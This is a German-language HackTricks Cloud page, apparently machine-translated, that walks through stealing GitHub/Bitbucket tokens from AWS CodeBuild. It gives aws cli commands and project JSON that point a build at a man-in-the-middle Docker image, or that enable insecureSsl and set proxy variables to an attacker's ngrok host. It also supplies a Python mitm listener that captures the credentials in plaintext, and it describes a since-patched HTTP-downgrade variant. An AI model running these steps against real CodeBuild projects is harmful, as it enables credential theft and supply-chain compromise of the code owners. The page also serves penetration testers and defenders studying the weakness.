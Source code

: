 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Wiederherstellen von Github/Bitbucket konfigurierten Tokens

Überprüfe zuerst, ob es Quellanmeldeinformationen gibt, die du leaken könntest:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Wenn Sie feststellen, dass die Authentifizierung zum Beispiel für Github im Konto eingestellt ist, können Sie **exfiltrieren** diesen **Zugang** (**GH token oder OAuth token**) indem Sie Codebuild dazu bringen, ein **bestimmtes Docker-Image** zu verwenden, um den Build des Projekts auszuführen.

Zu diesem Zweck könnten Sie **ein neues Codebuild-Projekt erstellen** oder die **Umgebung** eines bestehenden ändern, um das **Docker-Image** festzulegen.

Das Docker-Image, das Sie verwenden könnten, ist [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Dies ist ein sehr einfaches Docker-Image, das die **Umgebungsvariablen `https_proxy`**, **`http_proxy`** und **`SSL_CERT_FILE`** festlegt. Dies ermöglicht es Ihnen, den Großteil des Traffics des im **`https_proxy`** und **`http_proxy`** angegebenen Hosts abzufangen und das in **`SSL_CERT_FILE`** angegebene SSL-Zertifikat zu vertrauen.

1. **Erstellen & Hochladen Ihres eigenen Docker MitM-Images**
* Befolgen Sie die Anweisungen des Repos, um Ihre Proxy-IP-Adresse festzulegen und Ihr SSL-Zertifikat einzustellen und **das Docker-Image zu erstellen**.
* **SETZEN SIE NICHT `http_proxy`**, um keine Anfragen an den Metadaten-Endpunkt abzufangen.
* Sie könnten **`ngrok`** wie `ngrok tcp 4444` verwenden, um den Proxy zu Ihrem Host einzustellen.
* Sobald Sie das Docker-Image erstellt haben, **laden Sie es in ein öffentliches Repo hoch** (Dockerhub, ECR...)
2. **Setzen Sie die Umgebung**
* Erstellen Sie ein **neues Codebuild-Projekt** oder **ändern** Sie die Umgebung eines bestehenden.
* Stellen Sie das Projekt so ein, dass es das **zuvor generierte Docker-Image** verwendet.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Setzen Sie den MitM-Proxy auf Ihrem Host**

* Wie im **Github-Repo** angegeben, könnten Sie etwas wie verwenden:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Die **mitmproxy-Version, die verwendet wurde, war 9.0.1**, es wurde berichtet, dass dies mit Version 10 möglicherweise nicht funktioniert.
{% endhint %}

4. **Führen Sie den Build aus und erfassen Sie die Anmeldeinformationen**

*   Sie können das Token im **Authorization**-Header sehen:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Dies könnte auch über die aws cli mit etwas wie

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via insecureSSL

**Codebuild**-Projekte haben eine Einstellung namens **`insecureSsl`**, die im Web verborgen ist und nur über die API geändert werden kann.\
Wenn Sie dies aktivieren, kann Codebuild sich mit dem Repository **verbinden, ohne das von der Plattform angebotene Zertifikat zu überprüfen**.

* Zuerst müssen Sie die aktuelle Konfiguration mit etwas wie:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* Dann kannst du mit den gesammelten Informationen die Projekteinstellungen **`insecureSsl`** auf **`True`** aktualisieren. Das folgende ist ein Beispiel für meine Aktualisierung eines Projekts, beachte das **`insecureSsl=True`** am Ende (das ist das einzige, was du von der gesammelten Konfiguration ändern musst).
* Außerdem füge auch die Umgebungsvariablen **http\_proxy** und **https\_proxy** hinzu, die auf dein tcp ngrok zeigen, wie: 

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "https://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* Führen Sie dann das grundlegende Beispiel von [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) an dem Port aus, der von den Proxy-Variablen (http\_proxy und https\_proxy) angegeben wird.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Schließlich klicken Sie auf **Build the project**, die **Anmeldeinformationen** werden **im Klartext** (base64) an den mitm-Port gesendet:

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### ~~Via HTTP protocol~~

{% hint style="success" %}
**Diese Schwachstelle wurde von AWS irgendwann in der Woche des 20. Februar 2023 (ich glaube am Freitag) behoben. Ein Angreifer kann sie also nicht mehr ausnutzen :)**
{% endhint %}

Ein Angreifer mit **erhöhten Berechtigungen in über einem CodeBuild könnte das Github/Bitbucket-Token** leaken, das konfiguriert ist, oder wenn die Berechtigungen über OAuth konfiguriert wurden, das **temporäre OAuth-Token, das zum Zugriff auf den Code verwendet wird**.

* Ein Angreifer könnte die Umgebungsvariablen **http\_proxy** und **https\_proxy** zum CodeBuild-Projekt hinzufügen, die auf seine Maschine zeigen (zum Beispiel `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Dann ändern Sie die URL des Github-Repos, um HTTP anstelle von HTTPS zu verwenden, zum Beispiel: `http://github.com/carlospolop-forks/TestActions`
* Dann führen Sie das grundlegende Beispiel von [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) an dem Port aus, der von den Proxy-Variablen (http\_proxy und https\_proxy) angegeben wird.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Schließlich klicken Sie auf **Projekt erstellen**, die **Anmeldeinformationen** werden **im Klartext** (base64) an den mitm-Port gesendet:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Jetzt kann ein Angreifer das Token von seinem Rechner verwenden, alle Privilegien auflisten, die es hat, und (miss)brauchen einfacher als die direkte Nutzung des CodeBuild-Dienstes.
{% endhint %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
